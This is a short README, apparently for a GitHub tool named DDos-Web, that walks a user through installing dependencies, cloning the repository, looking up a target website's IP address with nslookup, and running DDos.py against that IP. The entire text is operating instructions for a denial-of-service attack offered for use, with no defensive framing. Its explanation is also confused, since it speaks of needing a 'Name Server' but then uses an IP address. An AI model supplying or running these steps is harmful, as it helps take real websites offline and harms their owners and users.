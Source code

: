 $ apt update<br>
$ apt upgrade<br>
$ apt install python<br>
$ apt install git<br>
$ apt install dnsutils<br>
$ git clone https://github.com/RIP-Network/DDos-Web

DDos need the <b>Name Server</b> of a website which you want to attack...<br>
To get the Name Server...just type<br>
$ <b>nslookup example.com<b><br>
Note the IP Address of that Website<br>

then <br>
$ cd DDos-Web<br>
$ python DDos.py -s [ip Address] -t 135<br>
example:<br>
$ python DDos.py -s 123.45.67.89 -t 135<br>

Video Tutorial:
How to use DDos-Web [`Watch it`](Comming soon)

